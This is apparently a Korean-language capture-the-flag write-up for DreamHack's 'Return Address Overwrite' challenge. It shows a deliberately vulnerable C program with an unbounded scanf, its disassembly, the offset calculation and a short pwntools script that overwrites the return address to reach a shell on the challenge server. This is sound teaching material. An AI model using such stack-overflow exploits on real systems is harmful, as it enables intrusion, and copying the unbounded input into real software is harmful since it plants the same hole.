

## [DreamHack] Return Address Overwrite

문제 링크: https://dreamhack.io/wargame/challenges/351/

### 난이도: Level 1

### 문제 풀이

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}

```

위 프로그램은 scanf() 함수를 사용하여 버퍼의 길이를 지정해주지 않았기에 Buffer overflow 공격을 사용하여 Return address 값을 조작할 수 있다. 

즉, **get_shell()** 함수 주소 값을 Return address 값으로 덮어 씌우면 쉘을 획득할 수 있을 것으로 보인다. 

## 바이너리 분석 

```bash
objdump -x86-asm-syntax=intel -d rao
```

```objdump

00000000004006aa <get_shell>:
  4006aa: 55                           	push	rbp
  4006ab: 48 89 e5                     	mov	rbp, rsp
  4006ae: 48 83 ec 20                  	sub	rsp, 32
  4006b2: 48 8d 05 fb 00 00 00         	lea	rax, [rip + 251]  # 4007b4 <_IO_stdin_used+0x4>
  4006b9: 48 89 45 f8                  	mov	qword ptr [rbp - 8], rax
  4006bd: 48 8b 45 f8                  	mov	rax, qword ptr [rbp - 8]
  4006c1: 48 89 45 e0                  	mov	qword ptr [rbp - 32], rax
  4006c5: 48 c7 45 e8 00 00 00 00      	mov	qword ptr [rbp - 24], 0
  4006cd: 48 8d 4d e0                  	lea	rcx, [rbp - 32]
  4006d1: 48 8b 45 f8                  	mov	rax, qword ptr [rbp - 8]
  4006d5: ba 00 00 00 00               	mov	edx, 0
  4006da: 48 89 ce                     	mov	rsi, rcx
  4006dd: 48 89 c7                     	mov	rdi, rax
  4006e0: e8 6b fe ff ff               	call	0x400550 <execve@plt>
  4006e5: 90                           	nop
  4006e6: c9                           	leave
  4006e7: c3                           	ret

00000000004006e8 <main>:
  4006e8: 55                           	push	rbp
  4006e9: 48 89 e5                     	mov	rbp, rsp
  4006ec: 48 83 ec 30                  	sub	rsp, 48
  4006f0: b8 00 00 00 00               	mov	eax, 0
  4006f5: e8 6d ff ff ff               	call	0x400667 <init>
  4006fa: 48 8d 3d bb 00 00 00         	lea	rdi, [rip + 187]  # 4007bc <_IO_stdin_used+0xc>
  400701: b8 00 00 00 00               	mov	eax, 0
  400706: e8 35 fe ff ff               	call	0x400540 <printf@plt>
  40070b: 48 8d 45 d0                  	lea	rax, [rbp - 48]
  40070f: 48 89 c6                     	mov	rsi, rax
  400712: 48 8d 3d ab 00 00 00         	lea	rdi, [rip + 171]  # 4007c4 <_IO_stdin_used+0x14>
  400719: b8 00 00 00 00               	mov	eax, 0
  40071e: e8 4d fe ff ff               	call	0x400570 <__isoc99_scanf@plt>
  400723: b8 00 00 00 00               	mov	eax, 0
  400728: c9                           	leave
  400729: c3                           	ret
  40072a: 66 0f 1f 44 00 00            	nop	word ptr [rax + rax]
```

main() 함수 부분을 보면 **sub rsp, 48** 어셈블리를 통해 (지역변수 + 더미) 크기가 48임을 알 수 있다. 

64-bit machine은 주소 크기가 8 bytes를 차지하기에 SFP 크기가 8 bytes 임을 알 수 있다. 

즉, Return address에 get_shell() 함수의 주소를 overwrite 하기 위해서는 지역변수+더미(48) + SFP(8)를 쓰레기 값으로 채우고 RET에 get_shell() 함수의 주소를 써주면 된다. 

## Exploit code 

```python
from pwn import * 

ncp = remote('host3.dreamhack.games', 23493)
payload = 'A' * 56 + '\xAA\x06\x40\x00\x00\x00\x00\x00'

ncp.sendafter('Input: ', payload) 
ncp.interactive()
```

## Flag


